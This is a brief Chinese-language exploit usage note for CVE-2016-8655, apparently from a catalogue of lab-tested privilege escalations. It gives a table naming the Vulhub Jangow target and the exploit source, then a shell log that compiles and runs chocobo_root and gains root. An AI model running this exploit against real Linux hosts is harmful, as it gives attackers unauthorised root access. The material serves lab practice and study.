 # CVE-2016-8655
<table>
    <tr>
        <th>CVE编号</th>
        <th>创建时间</th>
        <th>修改时间</th>
        <th>影响版本</th>
        <th>靶机验证环境</th>
        <th>EXP 来源</th>
    </tr>
    <tr>
        <td>CVE-2016-8655</td>
        <td>2023/12/17</td>
        <td></td>
        <td></td>
        <td>Vulhub: Jangow: 1.0.1</td>
        <td>
            <a href="https://github.com/bcoles/kernel-exploits/tree/master/CVE-2016-8655">CVE-2016-8655</a>
            </td>
    </tr>
</table>

## 使用
```shell
(remote) jangow01@jangow01:/tmp$ uname -a
Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
(remote) jangow01@jangow01:/tmp$ id
uid=1000(jangow01) gid=1000(desafio02) grupos=1000(desafio02)
(remote) jangow01@jangow01:/tmp$ gcc chocobo_root.c -o chocobo_root -lpthread -Wall
(remote) jangow01@jangow01:/tmp$ ls
chocobo_root  chocobo_root.c  linpeas.sh  systemd-private-8d9e565a1d2046a4af825a7685debc73-systemd-timesyncd.service-Qd25nD  tmux-1000
(remote) jangow01@jangow01:/tmp$ ./chocobo_root 
......
root@jangow01:/tmp# id
uid=0(root) gid=0(root) grupos=0(root),1000(desafio02)
```